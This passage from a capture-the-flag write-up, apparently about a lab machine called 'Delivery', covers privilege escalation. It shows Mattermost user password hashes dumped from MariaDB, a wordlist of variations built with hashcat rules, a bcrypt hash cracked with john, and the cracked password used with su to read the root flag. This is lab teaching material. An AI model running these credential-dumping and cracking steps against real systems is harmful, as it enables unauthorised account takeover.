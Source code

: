 
    MariaDB [mattermost]> select Username,Password from Users;
    +----------------------------------+--------------------------------------------------------------+
    | Username                         | Password                                                     |
    +----------------------------------+--------------------------------------------------------------+
    | surveybot                        |                                                              |
    | c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
    | john5412663                      | $2a$10$hF3jgrGBPYT2LaXISy67K.lAaTNaOKJfruZTWSzQo..ZI9dHctf7a |
    | 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
    | root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
    | ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
    | channelexport                    |                                                              |
    | 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
    | john                             | $2a$10$.uKtro1Yc15ZycqOJX1X/.m6yg7VSD60EUV58BJ4SVgg0xsYzrKe2 |
    +----------------------------------+--------------------------------------------------------------+
    9 rows in set (0.000 sec)

    MariaDB [mattermost]> exit
    Bye

We create a dictionary using the disclosed password and using `hashcat` rules we
generate a few variations.

    :::text
    $ cat dic
    PleaseSubscribe!

    $ hashcat --force dic -r /usr/share/hashcat/rules/best64.rule --stdout > dic_hc

We pass this variation dictionary to `john` with the database hashes, and found
a password.

    :::text
    $ john hash -w=dic_hc
    Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
    Use the "--format=bcrypt-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 7 password hashes with 7 different salts (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 1024 for all loaded hashes
    Will run 8 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    PleaseSubscribe!21 (?)
    Warning: Only 5 candidates left, minimum 24 needed for performance.
    1g 0:00:00:02 DONE (2021-02-13 17:19) 0.3424g/s 26.36p/s 182.8c/s 182.8C/s asP..PeSubs

We use this password to long as root on the box and get the final flag.

    :::text
    maildeliverer@Delivery:~$ su
    Password:
    root@Delivery:/home/maildeliverer# cd
    root@Delivery:~# cat /root/root.txt
    09679395029c940e9acea1ceab2cf76a

# Wrapping up

A really interesting an realistic box. There is no technical vulnerability or
exploit to use here. Just reading the applications and understanding what is
needed and found a way to achieve our attacker goal.

